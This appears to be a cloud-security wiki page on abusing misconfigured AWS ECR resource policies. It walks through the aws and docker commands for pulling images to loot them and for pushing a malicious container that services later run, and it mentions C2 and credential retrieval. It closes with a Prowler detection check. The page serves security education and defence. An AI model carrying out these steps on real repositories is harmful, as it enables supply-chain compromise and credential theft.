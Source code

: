 ```yaml
---
author: Nick Frichette
title: Abusing Misconfigured ECR Resource Policies
description: How to take advantage of misconfigured AWS ECR private repositories.
---
```


AWS Elastic Container Registry (ECR) [private repositories](https://docs.aws.amazon.com/AmazonECR/latest/userguide/Repositories.html) use resource-based policies to delineate which entities are permitted to push and pull containers. As a result, it is possible for these policies to be [misconfigured](/aws/exploitation/Misconfigured_Resource-Based_Policies/) and potentially abused. The following are some examples of possible misconfigurations and the required permissions needed to take advantage of them.

!!! Note
    Aside from the [wildcard principal](/aws/exploitation/misconfigured_resource-based_policies/#the-principal-and-risks), you should also be mindful of overbroad permissions in general, such as permitting an entire AWS account to have access.

## Understanding ecr:GetAuthorizationToken

A unique [requirement](https://docs.aws.amazon.com/AmazonECR/latest/userguide/repository-policies.html#repository-policy-vs-iam-policy) to abusing misconfigured resource-based policies in ECR is [ecr:GetAuthorizationToken](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-authorization-token.html). The attacking entity must have this permission via an identity-based policy, it cannot be permitted via a resource-based policy (even if the `Action` element is `ecr:*`). For scenarios in which the policy has a [wildcard principal](/aws/exploitation/misconfigured_resource-based_policies/#the-principal-and-risks) and a broken policy, this is not a problem as you can create a role with the needed permission.

!!! Note
    When interacting with an ECR private repository via the [Docker](https://github.com/docker/cli) cli, you use [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html) to authenticate. This calls `ecr:GetAuthorizationToken` to provide the needed authorization.

## Downloading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:BatchGetImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-get-image.html), [ecr:GetDownloadURLForLayer](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-download-url-for-layer.html).

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAll",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "ecr:BatchGetImage",
        "ecr:GetDownloadUrlForLayer"
      ]
    }
  ]
}
```

This policy would permit us the ability to download containers from the vulnerable repository to our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.us-east-1.amazonaws.com
```

Next, we will pull the container with the following command.

```
docker pull <account ID>.dkr.ecr.us-east-1.amazonaws.com/<repository name>:vulnerable
```

We can now loot this container for source code or other valuable information.

## Uploading Containers

**Required Permissions**: [ecr:GetLoginPassword](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/get-login-password.html), [ecr:InitiateLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/initiate-layer-upload.html), [ecr:UploadLayerPart](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/upload-layer-part.html), [ecr:BatchCheckLayerAvailability](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/batch-check-layer-availability.html), [ecr:CompleteLayerUpload](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/complete-layer-upload.html), [ecr:PutImage](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ecr/put-image.html).

!!! Info
    As an anecdotal aside, the number of permissions required to perform a container upload may inadvertently increase the likelihood of a `Principal` being set to `*`. If you're just trying to get something done, it may be enticing to set it to a wildcard and be done with it.

As an example, take the following misconfigured resource policy for an ECR private repository.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "ExamplePolicy",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "ecr:*"
    }
  ]
}
```

This policy would permit us the ability to upload containers to the repository from our own account. We can take advantage of this with the following commands. First, we need to authenticate to the repository.

```
aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account ID>.dkr.ecr.us-east-1.amazonaws.com
```

Next, we need to create/choose a container to upload. In a real world scenario you would likely want to create a container which runs your C2 of choice, or perhaps a simple script to retrieve IAM credentials. For this example, we will use an Ubuntu container.

```
docker tag ubuntu:latest <account ID>.dkr.ecr.us-east-1.amazonaws.com/<repository name>:vulnerable
```

And finally we push the container into the repository.

```
docker push <account ID>.dkr.ecr.us-east-1.amazonaws.com/<repository name>:vulnerable
```

Now we simply have to wait for a service (ECS, EKS, EC2, Lambda, etc.) to pull this malicious container and execute it, giving us access to that environment.

## Detection

To find exposed ECR private repositories you can use [Prowler](https://github.com/prowler-cloud/prowler), an open source tool to audit for AWS security. The following command can be used with version 3.0 or higher.

```
./prowler -c ecr_repositories_not_publicly_accessible
                         _
 _ __  _ __ _____      _| | ___ _ __
| '_ \| '__/ _ \ \ /\ / / |/ _ \ '__|
| |_) | | | (_) \ V  V /| |  __/ |
| .__/|_|  \___/ \_/\_/ |_|\___|_|v3.0-beta-21Nov2022
|_| the handy cloud security tool

Date: 2022-11-26 19:12:03

This report is being generated using credentials below:

AWS-CLI Profile: [default] AWS Filter Region: [all]
AWS Account: [000000000000] UserId: [AROAQQPLEQBZZHQGGAQ55:Nick]
Caller Identity ARN: [arn:aws:sts::000000000000:assumed-role/snip/Nick]

Executing 1 checks, please wait...

-> Scan is completed! |▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉▉| 1/1 [100%] in 4.5s 

Overview Results:
╭───────────────────┬─────────────────╮
│ 100.0% (1) Failed │ 0.0% (0) Passed │
╰───────────────────┴─────────────────╯

Account 009619941490 Scan Results (severity columns are for fails only):
╭────────────┬───────────┬──────────┬────────────┬────────┬──────────┬───────╮
│ Provider   │ Service   │ Status   │   Critical │   High │   Medium │   Low │
├────────────┼───────────┼──────────┼────────────┼────────┼──────────┼───────┤
│ aws        │ ecr       │ FAIL (1) │          1 │      0 │        0 │     0 │
╰────────────┴───────────┴──────────┴────────────┴────────┴──────────┴───────╯
```

!!! Note
    `Condition` elements may induce false positives.